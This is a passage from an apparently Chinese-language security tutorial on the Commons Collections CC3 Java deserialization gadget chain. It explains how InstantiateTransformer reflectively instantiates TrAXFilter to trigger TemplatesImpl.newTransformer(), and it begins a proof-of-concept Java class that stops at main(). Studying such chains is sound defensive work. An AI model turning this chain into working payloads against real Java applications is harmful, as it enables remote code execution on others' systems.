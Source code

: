下一步用的是`InstantiateTransformer`下的`transform()`方法

这个`transform()`方法，输入的`input`对象非空就会跳转到`else`中，`else`中通过反射拿到了`input`对象的构造方法，并且将构造方法实例化进行返回

所以这里我们可以将`TrAXFilter`传入，就会运行`TrAXFilter`的构造方法，进而运行`newTransformer()`

![image-20250927200712367](./Commons-Collections%E7%AF%8704-CC3%E9%93%BE/image-20250927200712367.png)

## 调用链

![image-20250927170246923](./Commons-Collections%E7%AF%8704-CC3%E9%93%BE/image-20250927170246923.png)

## 代码实现

利用有参构造实例化`InstantiateTransformer`，参数分别是`TrAXFilter`构造函数的`参数类型`和`参数值`

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class CC3 {
    public static void main(String[] args) throws Exception {
        
```